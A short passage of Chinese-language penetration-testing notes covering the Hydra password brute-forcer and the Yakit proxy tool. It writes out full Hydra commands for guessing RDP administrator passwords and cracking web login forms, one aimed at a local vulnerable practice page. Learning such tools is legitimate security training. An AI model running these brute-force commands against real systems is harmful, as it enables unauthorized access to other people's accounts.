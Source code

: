 ```
apt install hydra
```



```
hydra ip rdp -l administrator -P pass.txt –V
```

#### （6）post方式提交 破解web登录

```
hydra -l admin -P Pass.txt 域名/ip -s 端口 http-post-form "/Pass09/index.php:username=^USER^&password=^PASS^&Login=Login:F=密码错误" -v 
```

F表示错误信息，根据实际情况填写



```
hydra -l admin -P Pass.txt 192.168.70.14 -s 80 http-post-form "/vul/burteforce/bf_form.php:username=^USER^&password=^PASS^&submit=Login:F=username or password is not exists～" -v
```

![image-20240829220652635](https://image.201068.xyz/assets/25_3.漏扫工具/image-20240829220652635.png)

# yakit

## 配置

```
yak bridge --secret [your-password]
```

https://yaklang.io/products/connection

## 代理

> 127.0.0.1:8083